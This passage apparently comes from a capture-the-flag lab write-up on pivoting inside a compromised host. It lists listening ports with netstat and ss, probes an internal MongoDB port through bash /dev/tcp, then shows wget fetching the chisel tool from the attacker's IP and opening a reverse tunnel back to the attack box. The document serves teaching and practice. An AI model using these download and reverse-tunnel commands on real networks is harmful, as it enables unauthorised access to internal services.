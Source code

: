 ```bash
LISTEN   0        4096          172.17.0.1:6010          0.0.0.0:*              
LISTEN   0        4096          172.17.0.1:6011          0.0.0.0:*              
LISTEN   0        4096          172.17.0.1:6012          0.0.0.0:*              
LISTEN   0        4096          172.17.0.1:6013          0.0.0.0:*              
LISTEN   0        4096                [::]:8080             [::]:*              
LISTEN   0        4096                [::]:8081             [::]:*              
LISTEN   0        4096                [::]:8082             [::]:* 
```

If we look at the opening ports after a while (the time it takes for the mongodb cron job runs; we see 

```bash
netstat -ant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
<SNIP>
tcp        0      0 172.17.0.1:6013         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:33492        172.17.0.2:27017        TIME_WAIT
tcp        0      1 10.10.11.155:42588      1.1.1.1:53              SYN_SENT
tcp        0      0 172.17.0.1:33490        172.17.0.2:27017        TIME_WAIT
tcp        0      0 172.17.0.1:22           172.17.0.13:51558       ESTABLISHED
tcp        0      0 172.17.0.1:22           172.17.0.13:51618       ESTABLISHED
tcp6       0      0 :::8080                 :::*                    LISTEN
tcp6       0      0 :::8081                 :::*                    LISTEN
tcp6       0      0 :::8082                 :::*                    LISTEN

```

The mongodb connection seem to be on port 172.17.0.2

Another way to tell if the port is active is using this bash command, since nc is not available

```bash
echo > /dev/tcp/172.17.0.2/27012; echo $?

0
```

- If the connection is successful (i.e., the port is open and accepting connections), the command echo > /dev/tcp/172.17.0.2/27012 completes without error, and the exit status ($?) is 0.
- In Unix-like systems, an exit status of 0 indicates success, meaning the port is active and reachable.
- If the connection fails (e.g., the port is closed, the host is unreachable, or there's a firewall issue), the command fails, and $? will return a non-zero value (typically 1 or another error code).

However, mongodb commandline tool is not installed onto the target. Let’s use chisel and use our current host as a reverse pivot.

```bash
Chisel is a reverse pivot, our attack box acts as the server

Now to set up chisel:

On our attack host:
./chisel server -p 8110 -reverse -v

On the pivot host:
wget http://10.10.16.2:8002/chisel
chmod +x chisel

./chisel client 10.10.16.2:8110 R:127.0.0.1:27017:172.17.0.2:27017

```
